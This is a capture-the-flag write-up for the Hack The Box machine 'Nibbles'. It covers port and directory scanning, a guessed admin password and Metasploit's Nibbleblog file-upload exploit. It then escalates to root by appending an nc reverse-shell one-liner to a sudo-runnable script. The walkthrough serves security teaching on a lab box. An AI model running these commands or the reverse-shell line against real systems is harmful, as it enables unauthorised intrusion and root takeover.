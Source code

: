 # Nibbles-HTB
Nibbles is a Linux machine that is rated as easy. You going to see how to gain a shell with Metasploit.

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.10.10.75
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 21:45 EDT
Nmap scan report for 10.10.10.75
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.51 seconds
```
If you open the Website and viewed the page source you will find this:
```html
<b>Hello world!</b>

...

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
If we go to http://10.10.10.75/nibbleblog/ we will find this:

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Nibbles/images/1.png)

Also make note of this ```Powered by Nibbleblog```
## ffuf
I will be using ffuf to fuze web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/FUZZ.php       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.75/nibbleblog/FUZZ.php
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index                   [Status: 200, Size: 2985, Words: 116, Lines: 61]
sitemap                 [Status: 200, Size: 402, Words: 33, Lines: 11]
feed                    [Status: 200, Size: 302, Words: 8, Lines: 8]
admin                   [Status: 200, Size: 1401, Words: 79, Lines: 27]
install                 [Status: 200, Size: 78, Words: 11, Lines: 1]
update                  [Status: 200, Size: 1621, Words: 103, Lines: 88]
```
And we found a loging page at ```admin.php```:

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Nibbles/images/2.png)

So I tried many things and nothing worked for me. I checked the community posts and found out that I need to guess it :(, This box made me realized how bad I am at guessing XD.

After some minutes I was able to get the password and it is ```admin:nibbles```. And we are in :)

![image3](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Nibbles/images/3.png)

# User Flag
We will use ```multi/http/nibbleblog_file_upload``` to get a shell on the machine.
```
msf5 > use multi/http/nibbleblog_file_upload
msf5 exploit(multi/http/nibbleblog_file_upload) > options 

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3
```
And it worked
```
msf5 exploit(multi/http/nibbleblog_file_upload) > exploit 

[*] Started reverse TCP handler on 10.10.14.28:4444 
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.75:42342) at 2020-08-28 22:06:50 -0400
[+] Deleted image.php



meterpreter >
```

Let's deploy a shell now and upgrade it:
```
meterpreter > shell 
Process 1497 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
nibbler@Nibbles:/$ id
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
Get the User Flag:
```
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
b02ff32...ed21152c8d8
```

# Root Flag
By running ```sudo -l``` we can see that we can run ```/home/nibbler/personal/stuff/monitor.sh``` with sudo.
```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
So let's unzip the file first:
```
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
ls
personal  personal.zip  user.txt
```
So we can add our reverse command to the file and run it with sudo:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip_address> 5555 > /tmp/f" >> monitor.sh
```
Now run it with sudo and get your root shell :)
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.75] 49078
# id
uid=0(root) gid=0(root) groups=0(root)
```
Get Root Flag:
```
# cat root.txt
b6d745c0d...1efc898ef88c
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
